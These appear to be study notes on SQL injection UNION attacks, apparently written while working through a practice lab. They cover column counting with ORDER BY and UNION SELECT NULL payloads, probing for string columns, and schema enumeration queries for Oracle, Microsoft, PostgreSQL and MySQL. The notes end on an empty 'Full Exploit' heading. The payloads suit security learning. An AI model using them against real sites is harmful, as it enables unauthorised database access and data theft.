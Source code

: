 This SQL query returns a single result set with two columns, containing values from columns `a` and `b` in `table1` and `columns c` and `d` in `table2`. 

### 1. Determine number of column

Increase number using `ORDER BY 1 --` to find number of column

Can also use `' UNION SELECT NULL,NULL,NULL --`

> null represent number of column. can be increase

#### SQL injection UNION attack, determining the number of columns returned by the query

```
GET /filter?category=Gifts HTTP/2

> Determine number of column using ORDER BY 3 --
>> Using UNION SELECT null,null,null -- 
```

### 2. Finding column with usefull data
The interesting data that you want to retrieve is normally in string form. This means you need to find one or more columns in the original query results whose data type is, or is compatible with, string data. 

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

>>Favroutire
' UNION SELECT 'a','bb','ccc','dddd'--

```

### Database Specific

```
Oracle 	
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft 
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL 
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Full Exploit
